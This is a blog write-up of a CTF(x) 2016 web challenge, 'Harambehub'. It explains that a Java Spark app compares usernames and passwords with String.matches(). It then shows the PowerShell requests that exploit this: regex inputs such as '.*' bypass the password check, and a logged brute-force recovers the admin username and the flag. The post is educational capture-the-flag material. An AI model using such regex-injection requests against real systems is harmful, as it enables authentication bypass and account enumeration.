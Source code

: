 ```yaml
---
title: '[CTF(x) 2016 : WEB] Harambehub – 100 pts Writeup'
author: Megabeets
type: post
date: 2016-08-28T21:37:46+00:00
url: /ctfx-2016-web-harambehub-100-pts/
categories:
  - CTF(x)
  - Writeups
tags:
  - CTF
  - CTF(x)
  - Powershell
  - Web
  - Writeups

---
```

**Challenge description:**  
_This website was created in honor of harambe: http://problems.ctfx.io:7003_  
 _Problem author: omegablitz_  
[HarambeHub.java][1]  
[ _User.java_][2]

This challenge was the second in the Web category and it actually was the first time I’ve ever seen something like that. We are given with a url, which returns an empty page and two source-files written in Java for Spark Framework. Make sure you read the given source-files before you continue.

The main file, HarambeHub.java, contains two methods which are actually get() and post() routes to two different pages, as you can see below:

```java
public class HarambeHub {
    public static void main(String[] args) {
        post("/users", (req, res) -> {
            String username = req.queryParams("username");
            String password = req.queryParams("password");
            String realName = req.queryParams("real_name");
           ...
        });
		
        get("/name", (req, res) -> {
            String username = req.queryParams("username");
            String password = req.queryParams("password");
      	...
        });
    }
}

```


Reading both source files we understand the application is capable of creating a new account and to retrieve the real_name of a user if you know its username and password.

Let’s try to register a new user, using a simple Powershell code:

```powershell
(Invoke-WebRequest "http://problems.ctfx.io:7003/users" -Method POST -Body @{username="Megabeets"; password="VeggiesAreGood"; real_name="Itay Cohen"}).Content

```


We results with “_OK: Your username is &#8220;[Member] Megabeets&#8221;_”. As you can see, the text “[Member] “ has been added to the username we supplied. By reading the function that handles the registration process we understand that we can register a user with that name again and again. Executing the exact same code results with the exact same answer: “_OK: Your username is &#8220;[Member] Megabeets&#8221;_”. Let’s try this again but this time with “[Member] Megabeets” in the username. Now we end up with an error saying: “_FAILED: User with that name already exists!_”.

Let’s take a look at the code that checks if a given username already exists:

```java
...
for (User user : User.users) {
                if(user.getUsername().matches(username)) {
                    return "FAILED: User with that name already exists!";
                }
            }
            new User("[Member]	 " + username, password, realName);
            return "OK: Your username is \"" + "[Member] " + username + "\"";
...

```


As you can see, the code compares the two strings in attempt to check whether the username exists, but it uses String.matches() instead of String.equals(). The method String.matches() checks the match of a string to a regular rxpression pattern. Keep this in mind, it’s the key to solving the challenge. If false is returned, it creates a new User with the username “[Member] <username>”, just as we’ve seen before.

But what happens if we try to register a user with a regular expression as its desired username? Does it say that the username already exists? Let’s play with it a little bit and see what we get when sending “.\*” as the password (“.\*” is the regex pattern to **anything)**.

```powershell
(Invoke-WebRequest "http://problems.ctfx.io:7003/users" -Method POST -Body @{username=".*"; password="VeggiesAreGood"; real_name="Itay Cohen"}).Content

```


As expected, we received the error: &#8220;FAILED: User with that name already exists!&#8221;.

Now let’s take a look at the function that retrieves the real_name of a given username.

```java
public boolean verify(String username, String password) {
        return this.username.equals(username) && this.master.matches(password);
    }

```


This function also uses String.matches() to compare the given password with the user’s password. Let’s see it in action:

```powershell
Invoke-WebRequest "http://problems.ctfx.io:7003/name" -Method Get -Body @{username="[Member] Megabeets"; password="VeggiesAreGood"}

```


We results with: “_Itay Cohen_”.

Good. Now we’ll send the same request but this time with wildcard as the password.

```powershell
Invoke-WebRequest "http://problems.ctfx.io:7003/name" -Method Get -Body @{username="[Member] Megabeets"; password=".*"}

```


We again results with: “_Itay Cohen_”.

Let’s sum up what we have understood until now:

  1. We can get the real_name of any user if we know its username.
  2. We can understand if username already exists by using regular expressions.

That’s mean that we need to run through all the possible usernames till we find the user which his password is the flag. My gut feeling tells me the username will probably start with “[Admin]”.

I’ll do a simple test to check whether indeed a user begins with “[Admin]” exists. If so, only the developer can add a user with such a username because every registered username is prepend with “[Member]”.

```powershell
(Invoke-WebRequest "http://problems.ctfx.io:7003/users" -Method POST -Body @{username="^\[Admin\].*"; password="pass"; real_name="Itay Cohen"}).Content

```


“_FAILED: User with that name already exists!_”.

I wrote a simple script to automate the process. May the bruteforce be with us.



Results:

```
Match found: \[Admin\] A
Match found: \[Admin\] Ar
Match found: \[Admin\] Arx
Match found: \[Admin\] Arxe
Match found: \[Admin\] Arxen
Match found: \[Admin\] Arxeni
Match found: \[Admin\] Arxenix
Match found: \[Admin\] Arxenixi
Match found: \[Admin\] Arxenixis
Match found: \[Admin\] Arxenixisa
Match found: \[Admin\] Arxenixisal
Match found: \[Admin\] Arxenixisalo
Match found: \[Admin\] Arxenixisalos
Match found: \[Admin\] Arxenixisalose
Match found: \[Admin\] Arxenixisaloser

```


It seems like we’ve found the username. Let’s get its real_name:

```powershell
(Invoke-WebRequest "http://problems.ctfx.io:7003/name?username=\[Admin\] Arxenixisaloser; password=.*").content

```


And we got the flag:

_ctf(h4r4mb3\_d1dn1t\_d13\_4\_th1s\_f33ls\_b4d)_

<p style="text-align: right;">
  <img src="./megabeets_inline_logo.png" />Eat Veggies.
</p>

<img decoding="async" loading="lazy" class="alignleft" src="http://www.gannett-cdn.com/-mm-/748c68a68596b4b3be54484af8d31875e45f9fe5/c=179-0-2659-3307&r=537&c=0-0-534-712/local/-/media/2016/05/29/Cincinnati/Cincinnati/636001135964333349-Harambe2.jpg" width="172" height="209" /> 

**Harambe the Gorilla** was a 17-year-old Western lowland silverback gorilla who was shot and killed at the Cincinnati Zoo after a child fell into his enclosure in late May 2016. The incident was wildly criticized online by many who blamed the child’s parents for the gorilla’s untimely death.

**RIP Harambe.**

<div class="nf-post-footer">
  <p style="text-align: right">
    <a href="https://www.megabeets.net/about.html#vegan"><img src="./megabeets_inline_logo.png" />Eat Veggies</a>
  </p>
</div>

 [1]: https://gist.github.com/ITAYC0HEN/5df90c37fcdd78196778475e67011f7a
 [2]: https://gist.github.com/ITAYC0HEN/ad92229f6ae7f5fdf3c47ec752959b7e
